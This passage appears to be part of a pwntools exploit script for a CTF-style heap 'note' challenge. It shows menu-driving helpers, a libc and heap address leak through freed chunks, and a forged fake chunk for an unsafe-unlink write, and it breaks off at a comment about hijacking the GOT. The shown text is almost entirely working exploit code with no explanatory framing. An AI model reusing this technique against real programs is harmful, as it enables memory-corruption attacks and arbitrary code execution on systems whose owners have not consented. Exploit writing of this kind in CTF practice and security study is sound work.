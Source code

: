 ```Python
	sh.sendline(data) 
	sh.recvuntil("Done.")

def Edit(index,data):
	sh.recvuntil('Your choice: ')
	sh.sendline('3')
	sh.recvuntil('Note number: ')
	sh.sendline(str(index))
	sh.recvuntil('Length of note: ')
	sh.sendline(str(len(data)))
	sh.recvuntil('Enter your note: ')
	sh.sendline(data)
	sh.recvuntil("Done.")

def Delete(index): 
	sh.recvuntil("Your choice: ") 
	sh.sendline("4") 
	sh.recvuntil("Note number: ") 
	sh.sendline(str(index))

# libc address
New('a' * 0x80) # note0
New('b' * 0x80) # note1

Delete(0)

New('AAA')
List()

a = sh.recvuntil('aaaa')
libc_addr = u32(a[-8:-4]) - offset
sys_addr = libc.symbols['system'] + libc_addr

# heap address
New('c' * 0x80) # note2
New('d' * 0x80) # note3

Delete(0)
Delete(2)

New('BBB')
List()

b = sh.recvuntil('aaaa')
chunk2_addr = u32(b[-8:-4])
heap_addr = chunk2_addr - 0xc28 - 0x80 - 0x80
chunk0_addr = heap_addr + 0x18

# unlink
Delete(0)
Delete(1)
Delete(3)
# fake chunk : pre_size - size - fd - bk
payload = p32(0) + p32(0x81) + p32(chunk0_addr - 12) + p32(chunk0_addr - 8)
payload = payload.ljust(0x80, 'C') # chunk0
payload += p32(0x80) + p32(0x80)
payload = payload.ljust(0x80 * 2, 'C') # chunk1

New(payload)
Delete(1)

# hijack got
```